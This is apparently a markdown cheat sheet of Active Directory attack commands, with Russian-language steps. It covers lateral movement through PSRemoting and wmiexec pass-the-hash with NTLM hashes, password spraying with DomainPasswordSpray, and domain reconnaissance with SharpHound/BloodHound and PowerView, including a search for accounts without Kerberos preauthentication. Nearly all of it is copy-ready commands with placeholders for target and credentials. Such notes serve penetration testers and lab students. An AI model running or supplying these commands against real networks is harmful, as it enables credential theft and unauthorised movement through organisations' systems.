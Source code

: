 
## 📡 Lateral Movement via PSRemoting
1. На Kali или Linux:
```powershell
pwsh
$cred = Get-Credential
Enter-PSSession –ComputerName TARGETIP -Authentication Negotiate -Credential $cred
```
2. Если PSRemoting отключён:
   - Получить доступ к машине
   - Выполнить в PowerShell:
```powershell
Enable-PSRemoting
```

---

## 🐍 Lateral Movement via WMIEXEC
```bash
wmiexec.py -hashes <NTLM> USER@TARGETIP
```

___
___
## Initial Access

### Password Spraying
```powershell
.\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -UserList .\USERFILE -Password PASS
# Add -Verbose if needed
```

---

##  Enumeration

### BloodHound
```powershell
cd C:\tools\BloodHound\BloodHound\resources\app\Collectors
powershell -ep bypass
.\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All
# Then open the BloodHound app and upload the ZIP
# Default Neo4j creds: user: neo4j | pass: Password@123
```

### PowerView
```powershell
powershell -ep bypass
.\PowerView.ps1

Get-NetUser | Select-Object -Property samaccountname
Get-NetUser -PreauthNotRequired | select samaccountname, useraccountcontrol

Get-Domain
Get-Domain -Domain DOMAINNAME
Get-DomainSID
Get-DomainController
Get-DomainUser
Get-DomainUser -Identity USERNAME
Get-NetComputer
```